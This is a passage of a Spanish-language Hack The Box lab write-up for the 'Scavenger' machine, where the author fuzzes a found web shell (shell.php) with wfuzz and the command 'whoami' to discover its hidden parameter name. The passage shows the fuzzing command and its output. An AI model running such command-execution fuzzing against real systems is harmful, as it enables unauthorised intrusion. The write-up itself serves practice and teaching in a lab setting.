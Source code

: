 Encontramos un archivo con un nombre muy descriptivo `shell` que curiosamente existe, y quiero pensar que al ser una shell debe ejecutarse a traves de un parametro que si bien no sabemos el nombre, con `wfuzz` igualmente podemos tratar de averiguarlo ejecutando un comando.

![](/assets/images/HTB/htb-writeup-Scavenger/sca5.PNG)


```bash
❯ wfuzz -c --hc=404 -t 200 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt "http://sec03.rentahacker.htb/shell.php?FUZZ=whoami"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sec03.rentahacker.htb/shell.php?FUZZ=whoami
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000012593:   200        1 L      1 W        8 Ch        "hidden"                                                                                                              
000014350:   200        0 L      0 W        0 Ch        "guildwars"                                                                                                           
```
